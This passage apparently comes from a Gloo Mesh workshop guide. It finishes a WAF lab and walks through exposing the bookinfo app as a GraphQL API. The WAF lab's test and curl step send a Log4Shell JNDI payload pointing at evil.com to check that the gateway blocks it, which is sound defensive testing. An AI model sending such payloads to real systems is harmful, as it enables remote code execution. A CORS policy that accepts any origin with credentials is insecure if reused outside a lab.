const helpersHttp = require('./tests/chai-http');
var chai = require('chai');
var expect = chai.expect;

describe("WAF is working properly", function() {
  it('The request has been blocked', () => helpersHttp.checkBody({ host: 'https://' + process.env.ENDPOINT_HTTPS_GW_CLUSTER1, path: '/get', headers: [{key: 'x-my-header', value: '${jndi:ldap://evil.com/x}'}], body: 'Log4Shell malicious payload' }));
});

EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/httpbin/gateway-waf/tests/waf.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```

Let's apply the original `RouteTable` yaml:

```bash
kubectl --context ${CLUSTER1} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main
  namespace: istio-gateways
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
        routeTables:
          - labels:
              expose: "true"
        sortMethod: ROUTE_SPECIFICITY
EOF
```

And also delete the waf policy we've created:

```bash
kubectl --context ${CLUSTER1} -n httpbin delete wafpolicies.security.policy.gloo.solo.io log4shell
```


## Lab 16 - Expose the bookinfo application through GraphQL <a name="lab-16---expose-the-bookinfo-application-through-graphql-"></a>
[](https://youtu.be/ucVMxX8oFz0 "Video Link")

Gloo Mesh is enhancing the Istio Ingress Gateway to allow exposing some REST services as a GraphQL API.

First, you need to create an `ApiDoc` to define your GraphQL API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: ApiDoc
metadata:
  name: bookinfo-api-doc
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  graphql:
    schemaDefinition: |-
      type Query {
        """Description of a book in HTML"""
        productsForHome: [Product] 
      }
      """Each book has a product entry"""
      type Product {
        """Unique identifier for books"""
        id: String
        """The book title"""
        title: String
        """Number of pages in the book"""
        pages: Int
        """Year the book was published"""
        year: Int
        """Description of a book in HTML"""
        descriptionHtml: String
        """List of reader reviews for this book. Queries the reviews REST service"""
        reviews: [Review]
        """List of reader ratings for this book. Queries the ratings REST service"""
        ratings: [Rating]
      }
      """A book review"""
      type Review {
        """Name of the reviewer"""
        reviewer: String
        """Review details"""
        text: String
        "Reviewer Rating, this field is provided by the reviews REST service, which queries the ratings REST service"
        rating: ReviewerRating
      }
      type ReviewerRating {
        stars: Int
        color: String
      }
      """A book rating"""
      type Rating {
        """Name of the user peforming the rating"""
        reviewer: String
        """Number of stars for this rating"""
        numStars: Int
      }
EOF
```

Then, you need to create a `GraphQLResolverMap` to define the resolvers:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLResolverMap
metadata:
  name: bookinfo-graphql-resolvers
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  types:
    Query:
      fields:
        productsForHome:
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: productpage
                  namespace: bookinfo-frontends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/api/v1/products"'
    Product:
      fields:
        reviews:
          variables:
            parentVar:
              graphqlParent: {}
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: reviews
                  namespace: bookinfo-backends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/reviews/" + (.parentVar.id | tostring)'
            resolverResultTransform:
              jq: '.resolverResultVar.reviews'
        ratings:
          variables:
            parentVar:
              graphqlParent: {}
            resolverResultVar:
              resolverResult: {}
          resolvers:
          - restResolver:
              destinations:
              - port:
                  number: 9080
                ref:
                  name: ratings
                  namespace: bookinfo-backends
                  cluster: cluster1
              request:
                headers:
                  :path:
                    jq: '"/ratings/" + (.parentVar.id | tostring)'
            resolverResultTransform:
              jq: '.resolverResultVar.ratings | to_entries | map(.reviewer=.key | .numStars=.value | del(.key,.value))'
EOF
```

After that, you need to create an `ApiSchema` which references the `ApiDoc` and the `GraphQLResolverMap`:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: apimanagement.gloo.solo.io/v2
kind: GraphQLSchema
metadata:
  name: bookinfo-graphql-schema
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  schemaRef:
    name: bookinfo-api-doc
    namespace: bookinfo-frontends
    clusterName: cluster1
  resolved:
    options: {}
    resolverMapRefs:
    - name: bookinfo-graphql-resolvers
      namespace: bookinfo-frontends
      clusterName: cluster1
EOF
```

Finally, you can create a `RouteTable` to expose the GraphQL API:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: graphql
  namespace: bookinfo-frontends
  labels:
    expose: "true"
spec:
  http:
  - graphql:
      schema:
        name: bookinfo-graphql-schema
        namespace: bookinfo-frontends
        clusterName: cluster1
    matchers:
    - uri:
        prefix: /graphql
    labels:
      graphql: "true"
EOF
```

Now, you can try to 

```bash
curl -k "https://${ENDPOINT_HTTPS_GW_CLUSTER1}/graphql" --data '{"query":" {productsForHome { title ratings {reviewer numStars}}}"}' | jq .
```

Here is the expected output:

```
{
  "data": {
    "productsForHome": [
      {
        "title": "The Comedy of Errors",
        "ratings": [
          {
            "reviewer": "Reviewer1",
            "numStars": 5
          },
          {
            "reviewer": "Reviewer2",
            "numStars": 4
          }
        ]
      }
    ]
  }
}
```

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

describe("GraphQL", function() {
  it('GraphQL query returning the expected output', function () {
    expect(process.env.ENDPOINT_HTTPS_GW_CLUSTER1).to.not.be.empty
    let command = `curl -ks "https://${process.env.ENDPOINT_HTTPS_GW_CLUSTER1}/graphql" --data '{"query":" {productsForHome { title ratings {reviewer numStars}}}"}'`
    let cli = chaiExec(command);
    expect(cli).to.exit.with.code(0);
    expect(cli).output.to.contain('{"data":{"productsForHome":[{"title":"The Comedy of Errors","ratings":[{"reviewer":"Reviewer1","numStars":5},{"reviewer":"Reviewer2","numStars":4}]}]}}');
  })
});
EOF
echo "executing test dist/gloo-mesh-2-0-gateway-standalone/build/templates/steps/apps/bookinfo/gateway-graphql/tests/graphql.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
mocha ./test.js --timeout 10000 --retries=50 --bail 2> ${tempfile} || { cat ${tempfile} && exit 1; }
-->

Create the following `CORSPolicy` to allow using the GraphQL explorer from the Gloo Mesh UI:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: CORSPolicy
metadata:
  name: graphql-explorer
  namespace: bookinfo-frontends
spec:
  applyToRoutes:
  - route:
      labels:
        graphql: "true"
  config:
    allowCredentials: true
    allowHeaders:
    - apollo-query-plan-experimental
    - content-type
    - x-apollo-tracing
    allowMethods:
    - POST
    allowOrigins:
    - regex: ".*"
EOF
```


